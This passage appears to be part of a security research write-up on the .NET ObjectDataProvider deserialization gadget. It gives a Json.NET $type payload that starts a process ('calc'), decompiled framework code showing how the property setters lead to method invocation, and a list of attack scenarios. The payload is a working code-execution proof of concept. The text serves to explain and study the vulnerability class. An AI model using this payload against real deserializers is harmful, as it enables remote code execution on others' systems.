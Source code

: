 # Sample JSON payload

```json
{"$type":"System.Windows.Data.ObjectDataProvider,
PresentationFramework, Version=4.0.0.0, Culture=neutral,
PublicKeyToken=31bf3856ad364e35","MethodName":"Start","MethodParamet
ers":{"$type":"System.Collections.ArrayList,
mscorlib","$values":["calc"]},"ObjectInstance":{"$type":"System.Diag
nostics.Process, System, Version=4.0.0.0, Culture=neutral,
PublicKeyToken=b77a5c561934e089"}}
```

# Source code

```csharp
// System.Windows.Data.ObjectDataProvider
public void set_ObjectInstance(object value)
{
...
    if (this.SetObjectInstance(value) && !base.IsRefreshDeferred)
    {
        base.Refresh();
    } 
}
```
```csharp
// System.Windows.Data.ObjectDataProvider
public void set_MethodName(string value)
{
        this._methodName = value;
        this.OnPropertyChanged("MethodName");
        if (!base.IsRefreshDeferred)
        {
            base.Refresh();
        } 
}...
```
```csharp
// System.Windows.Data.DataSourceProvider
public void Refresh()
{
  this._initialLoadCalled = true;
  this.BeginQuery();
}
```
```csharp
// System.Windows.Data.ObjectDataProvider
protected override void BeginQuery()
{
...
        if (this.IsAsynchronous)
        {
               ThreadPool.QueueUserWorkItem(new
WaitCallback(this.QueryWorker), null);
               return;
        }
        this.QueryWorker(null);
...
}
```
```csharp
// System.Windows.Data.ObjectDataProvider
private void QueryWorker(object obj)
{
...
Exception ex2 = null;
if (this._needNewInstance && this._mode ==
ObjectDataProvider.SourceMode.FromType)
{
        ConstructorInfo[] constructors =
this._objectType.GetConstructors();
        if (constructors.Length != 0)
        {
               this._objectInstance = this.CreateObjectInstance(out
ex2);
}
        this._needNewInstance = false;
        }
        if (string.IsNullOrEmpty(this.MethodName))
        {
} else {
    obj2 = this._objectInstance;
    obj2 = this.InvokeMethodOnInstance(out ex);
...
```
```csharp
// System.Windows.Data.ObjectDataProvider
private object InvokeMethodOnInstance(out Exception e)
{
...
    object[] array = new object[this._methodParameters.Count];
    this._methodParameters.CopyTo(array, 0);
    try
    {
            result = this._objectType.InvokeMember(this.MethodName, BindingFlags.Instance | BindingFlags.Static | BindingFlags.Public | BindingFlags.FlattenHierarchy | BindingFlags.InvokeMethod | BindingFlags.OptionalParamBinding, null, this._objectInstance, array, CultureInfo.InvariantCulture);
    }
```

# Attack vector

This gadget is very flexible and offers various attack scenarios therefore we were able to use it for almost any unmarshaller:

* We can call any method of unmarshaled object (ObjectInstance + MethodName)
* We can call parametrized constructor of desired type with controlled parameters (ObjectType +
ConstructorParameters)
* We can call any public method including static ones with controlled parameters (ObjectInstance +
MethodParameters + MethodName or ObjectType + ConstructorParameters + MethodParameters + MethodName)